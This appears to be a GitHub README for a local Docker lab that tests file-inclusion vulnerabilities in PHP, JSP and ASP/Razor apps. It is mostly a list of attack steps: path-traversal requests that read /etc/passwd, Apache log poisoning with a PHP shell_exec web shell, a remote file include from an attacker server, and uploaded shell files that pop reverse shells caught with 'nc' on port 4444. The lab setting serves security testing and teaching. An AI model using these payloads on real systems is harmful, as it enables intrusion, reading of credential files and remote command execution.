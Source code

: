 # Payloads

For an in-detail-description of the following payloads go to [https://secf00tprint.github.io/blog/payload-tester/lfirfi/en](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

## PHP

### RFI 
[http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?](http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?)

see `allow_url_include` in response

### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

[http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check)

#### Exploit

Upload shell.php
[http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)

then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### LFI

Upload runme.jsp for Remote Code Execution:

[http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
[http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)
[http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/introduction](http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/introduction)

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

